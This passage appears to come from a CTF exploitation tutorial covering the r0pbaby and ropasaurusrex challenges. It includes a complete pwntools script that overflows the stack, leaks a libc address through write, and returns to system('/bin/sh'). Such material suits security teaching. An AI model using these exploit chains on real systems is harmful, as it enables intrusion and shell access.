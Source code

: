 ```python
p.interactive()
```

## exercise two

Subject: [DEF CON Qualifier 2015: r0pbaby](https://github.com/ctfs/write-ups-2015/tree/master/defcon-qualifier-ctf-2015/babys-first/r0pbaby)

The function of this binary file is obvious, it provides us the libc base address and any symbol address, so we could use the libc database or other trick(dump the .so file from other pwned server) to get the address of `/bin/sh` in libc.so.

## exercise three

Subject: [2013-PlaidCTF-ropasaurusrex](https://ctftime.org/task/364)

The solution of this problem is similar to the example. With the given libc.so file, `read` function causes stack overflow and superfluous `write` function can be used to leak information of `read@got.plt`. After leaking, we could return to the fragile function again to ret2system:

```python
from pwn import *

p = process("ropasaurusrex")

binsh_offset = 0x15ffcc
read_offset = 0x000dbd20
system_offset = 0x0003fe70
read_got_address = 0x0804961C
write_plt_address = 0x0804830C
pwn_func_address = 0x080483F4
ppp_ret_address = 0x080484b6

stage1 = ""
stage1 += "A" * (0x88+4)
stage1 += p32(write_plt_address)
stage1 += p32(ppp_ret_address)
stage1 += p32(1)
stage1 += p32(read_got_address)
stage1 += p32(4)
stage1 += p32(pwn_func_address)

p.sendline(stage1)
read_address = u32(p.recv())
libc_base = read_address - read_offset
system_address = libc_base + system_offset
binsh_address = libc_base + binsh_offset

stage2 = ""
stage2 += "A" * (0x88+4)
stage2 += p32(system_address)
stage2 += "B" * 4
stage2 += p32(binsh_address)

p.sendline(stage2)
p.interactive()
```
